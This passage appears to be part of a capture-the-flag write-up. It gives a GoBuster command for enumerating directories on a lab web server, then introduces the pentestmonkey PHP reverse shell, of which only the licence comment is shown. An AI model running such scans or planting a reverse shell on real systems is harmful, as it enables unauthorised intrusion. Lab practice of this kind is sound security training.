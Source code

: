 [![](assets/1706771526-aea2486b96341d92ae762958b765488c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129223142-1f17f904-beb3-1.png)

## Find directories on the web server using the GoBuster tool.

[![](assets/1706771526-8a3d2c1117d9b21d40a78c5eb93e8008.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129223146-2154e7f4-beb3-1.png)

```bash
gobuster dir -e -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt,zip,html -u 10.10.92.61
```

万能 php 反弹 shell

```bash
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
```